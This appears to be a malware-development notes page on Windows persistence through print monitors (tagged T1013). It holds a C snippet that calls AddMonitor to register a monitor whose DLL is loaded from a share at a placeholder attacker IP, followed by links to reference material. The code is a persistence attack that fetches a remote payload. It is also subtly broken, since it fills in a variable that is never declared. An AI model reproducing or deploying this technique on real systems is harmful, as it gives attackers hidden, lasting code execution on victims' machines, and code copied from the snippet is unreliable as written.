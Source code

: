 ```yaml
---
author(s):
  - Userware
tags:
  - malware-development
  - maintaining-access
  - persistence
  - T1013
  - windows
---
```

# Print Monitor

```c
#include <windows.h>
#include <winspool.h>

#pragma comment(lib, "winspool.lib")

int main() {
    //Build the struct req by AddMonitor
    MONITOR_INFO_2 mon;
    TCHAR name[14] = TEXT("MonitorSlayer");
    TCHAR arch[12] = TEXT("Windows x64");
    TCHAR dll[39] = TEXT("\\\\<attacker_IP>\\<share_name>\\payload.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = arch;
    monitorInfo.pDLLName = dll;

    //Add the monitor
    AddMonitor(NULL, 2, (LPBYTE)&mon);
    return 0;
}
```

---
## References

### Microsoft

- [WinAPI Documentation: `AddMonitor`](https://learn.microsoft.com/en-us/windows/win32/printdocs/addmonitor)

### Persistence Info

- [Persistence Info: Print Monitor](https://persistence-info.github.io/Data/printmonitor.html)

### Red Team Notes

- [Red Team Notes: `AddMonitor()`](https://www.ired.team/offensive-security/persistence/t1013-addmonitor)

### Slayer Labs

- [Slayer Labs: Windows Persistence via Port Monitors](https://posts.slayerlabs.com/monitor-persistence/)